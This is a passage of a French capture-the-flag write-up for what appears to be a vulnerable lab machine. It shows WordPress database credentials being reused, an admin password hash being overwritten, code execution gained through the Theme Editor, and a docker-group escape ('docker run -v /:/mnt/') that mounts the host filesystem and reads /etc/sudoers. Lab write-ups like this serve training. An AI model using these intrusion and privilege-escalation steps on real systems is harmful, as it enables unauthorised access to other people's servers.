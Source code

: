 ```php
/** The name of the database for WordPress */ 
define( 'DB_NAME', 'bitnami_wordpress' ); 

/** MySQL database username */ 
define( 'DB_USER', 'bn_wordpress' ); 

/** MySQL database password */ 
define( 'DB_PASSWORD', 'aa75e9f9b1' ); 

/** MySQL hostname */ 
define( 'DB_HOST', 'localhost:3306' );
```

On peut utiliser ces identifiants pour accéder à la base de données car, comme indiqué dans l'énumération du début, *phpMyAdmin* est présent.  

C'est dans la table *wp-users* que je trouve un autre utilisateur pour le Wordpress : *charleywalker*. Aucun doute qu'il s'agisse de l'administrateur.  

Son hash, bien que simple MD5 de type Unix (*$1$*) ne semble pas tomber même avec la wordlist *hashesorg2019* de Penglab.  

J'ai donc écrasé son hash par celui de *jarretlee* ce qui me permet de me connecter sur l'interface admin avec le mot de passe *NoBrUtEfOrCe\_\_R3Qu1R3d\_\_*.  

La suite est classique, *Appearance* puis *Theme Editor* qui permet d'éditer un des fichiers PHP et de finalement obtenir notre exécution de commande.  

Le fichier */etc/passwd* indique 3 utilisateurs non privilégiés :  

```plain
john:x:1002:1004:John,,8565430143,:/home/john:/bin/bash 
jeevan:x:1003:1005:,,,:/home/jeevan:/bin/bash 
jarretlee:x:1000:1000:,,,:/home/jarretlee:/bin/bash
```

On dispose justement du mot de passe de l'utilisateur *jeevan* (*hannahmontana*). On peut changer d'utilisateur via la commande *su*.  

Cette utilisateur est membre du groupe Docker. On va créer un container en indiquant que l'on veut monter le disque de la machine. L'accès root obtenu dans le container nous permettra d'accéder au système de fichier de l'hôte.  

```plain
jeevan@debian:/$ docker images  
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE 
bash                latest              0980cb958276        20 months ago       13.1MB 
alpine              latest              a24bb4013296        20 months ago       5.57MB 
hello-world         latest              bf756fb1ae65        2 years ago         13.3kB

jeevan@debian:/$ docker run -v /:/mnt/ -it alpine /bin/sh   
/ # cd /mnt 
/mnt # cd etc 
/mnt/etc # cat sudoers 
# 
# This file MUST be edited with the 'visudo' command as root. 
# 
# Please consider adding local content in /etc/sudoers.d/ instead of 
# directly modifying this file. 
# 
# See the man page for details on how to write a sudoers file. 
# 
Defaults        env_reset 
Defaults        mail_badpass 
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" 

# Host alias specification 

```